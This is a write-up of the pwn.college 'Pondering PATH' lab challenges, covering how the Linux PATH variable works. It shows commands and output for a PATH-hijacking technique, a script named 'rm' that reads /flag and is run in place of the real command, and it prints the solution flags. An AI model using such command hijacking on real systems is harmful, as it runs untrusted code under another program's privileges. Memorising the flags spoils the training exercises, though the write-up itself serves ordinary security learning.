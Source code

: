 # Pondering PATH

This module is about the PATH variable in Linux.

![](https://i.imgur.com/2qrhy1S.png)

- [Pondering PATH](#pondering-path)
  - [The PATH Variable](#the-path-variable)
  - [Setting PATH](#setting-path)
  - [Adding Commands](#adding-commands)
  - [Hijacking Commands](#hijacking-commands)
  - [Completion](#completion)

## The PATH Variable

In this challenge, we are supposed to make it so that `/challenge/run` cannot use the `rm` command in order to get our flag.

> [!NOTE]
> The shell will search for programs corresponding to commands in a special variable called the `PATH` variable.

We can set the value of the `PATH` variable to an empty string to prevent the program from accessing the `rm` command. The program 
`/challenge/run` will be a child process of our shell so we can export the `PATH` variable since child processes inherit the variables of the parent shell

I run **`export PATH=""`** to export the `PATH` variable as a empty string.

Then I run **`/challenge/run`** to get the flag - `pwn.college{wfjcWqqZFJPVuUkuqzumqwEsqGY.dZzNwUDL1QjN0czW}`

```
hacker@path~the-path-variable:~$ export PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{wfjcWqqZFJPVuUkuqzumqwEsqGY.dZzNwUDL1QjN0czW}
```

## Setting PATH

In this challenge, the program `/challenge/run` will run the win command via its bare name, but this command exists in the `/challenge/more_commands/` directory, which is not initially in the `PATH` variable. Therefore we need to add the path to the `PATH` variable to get our flag.

I run **`PATH=/challenge/more_commands/`** to set the path variable.

Then I run **`/challenge/run`** to get the flag - `pwn.college{U-JGAnEWnk3KdWHbeAy0Jxd7_kx.dVzNyUDL1QjN0czW}`

```
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{U-JGAnEWnk3KdWHbeAy0Jxd7_kx.dVzNyUDL1QjN0czW}
```

## Adding Commands

In this challenge, we need to trick `/challenge/run` into printing the flag by modifying the `win` file. 

I used [nano](https://www.nano-editor.org/) to create a file named `win` in the home directory:

```
read FLAG < /flag
echo $FLAG
```
> [!NOTE]
> Since we are modifying the `PATH` variable, the system can't find comamnds like `cat`. Therefore we have to use alternative methods to print out the flag.
>
> One such method is the `read` command which reads the contents of a file into a variable. We can then print out the variable using `echo`
>

I made it executabe for all users by running **`chmod o+x win`**

Then I modify the PATH variable - `PATH=~/`

Finally I run **`/challenge/run`** to get the flag - `pwn.college{QYA-gOygwdqwBtDa0EbC7Ax3wXn.dZzNyUDL1QjN0czW}`

```
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ chmod u+x win
hacker@path~adding-commands:~$ PATH=~/
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{QYA-gOygwdqwBtDa0EbC7Ax3wXn.dZzNyUDL1QjN0czW}
```

## Hijacking Commands

In this challenge, we need to trick `/challenge/run` into printing the flag by changing the `rm` comamnd.

> [!NOTE]
> To get the flag, we could create a file named rm that would display the flag. Subsequently, we could manipulate the PATH environment variable to prioritize our custom rm command, thereby deceiving /challenge/run into executing it and revealing the flag.

I used [nano](https://www.nano-editor.org/) to create a file named `rm` in the home directory:

```
read FLAG < /flag
echo $FLAG
```
I made it executabe for all users by running **`chmod o+x rm`**

Then I modify the PATH variable - `PATH=~/`

Finally I run `/challenge/run` to get the flag - `pwn.college{0dCFIPi5NC4yrgcolhhY1PN8HD3.ddzNyUDL1QjN0czW}`

```
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod o+x rm
hacker@path~hijacking-commands:~$ PATH=~/
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{0dCFIPi5NC4yrgcolhhY1PN8HD3.ddzNyUDL1QjN0czW}
```

## Completion

![](https://i.imgur.com/jAfKoBU.png)